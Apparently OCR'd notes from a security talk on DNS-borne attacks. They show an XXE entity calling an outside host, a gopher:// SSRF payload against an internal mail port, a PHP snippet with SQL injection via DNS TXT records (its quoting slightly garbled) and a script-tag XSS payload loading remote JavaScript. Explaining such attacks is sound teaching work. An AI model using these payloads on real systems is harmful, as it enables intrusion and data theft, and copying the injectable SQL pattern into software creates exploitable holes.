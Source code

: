 ```
<!ENTITY xxe SYSTEM "http://aab.skullseclabs.org">]>

<foo> &xxe; </foo>
```

Even if there is a firewall, and a weird filesystem, and the file isn't send back to the user, you can still detect XXE!

### Gopher

If you ask a server to do a request for:

```
gopher://internal-ip:25/AHELO%0AMAIL+FROM...
```

Meaning that, if you can get a service to fetch an arbitrary gopher://URL, such as through XXE, you can attack back-end services.

Having to use DNS to exploit this is unlikely.

## PHP bad fopen()

Very similar to XXE.

Old versions of PHP allowed Internet links (http://...) in fopen()

Arbitrary file read, gopher:// issues again.


### Shell injection

Simply inject a DNS lookup into every field

Full server access


### DNS Lookups

Untrusted.

Exploit:

Setting TXT record will change email field to a list of databases:

```sql
$addr = gethostbyaddr($_SERVER['REMOTE_ADDR']))
$details = print_r(dns_get_record($addr), true);
mysql_query("UPDATE users SET password='$details' WHERE username="$username'");
```

### Cross-site scripting

The following is a valid CNAME, MX, TXT, PTR:

```
<script/src="http://javaop.com/test-js.js'></script>
```

